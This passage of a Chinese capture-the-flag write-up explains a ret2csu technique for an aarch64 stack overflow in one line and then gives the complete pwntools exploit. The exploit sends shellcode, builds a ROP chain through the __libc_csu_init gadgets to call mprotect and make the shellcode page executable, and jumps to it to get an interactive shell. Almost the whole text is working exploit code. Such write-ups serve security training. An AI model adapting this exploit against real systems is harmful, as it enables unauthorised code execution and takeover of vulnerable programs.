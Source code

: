 这里的定义的 csu 就是溢出后调用，先去覆盖返回地址为 csu\_down，调用后 sp 指向 csu\_down，然后按照偏移依次往下构造就可以

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch = 'aarch64'
context.os = 'linux'
context.log_level = 'debug'

p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","./pwn"])
#p = process(["qemu-aarch64","-L","/usr/aarch64-linux-gnu/","-g", "1234","./pwn"])
mprotect_plt = 0x400600
mprotect_got = 0x411030
csu_down = 0x4008CC
csu_up = 0x4008AC

offset=0x48

def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl

shellcode_addr = 0x411068
shellcode = asm(shellcraft.aarch64.sh())
pl = shellcode
sa('Name:',pl)

pl=csu(0,1,mprotect_got,7,0x1000,shellcode_addr,shellcode_addr)
s(pl)
itr()
```
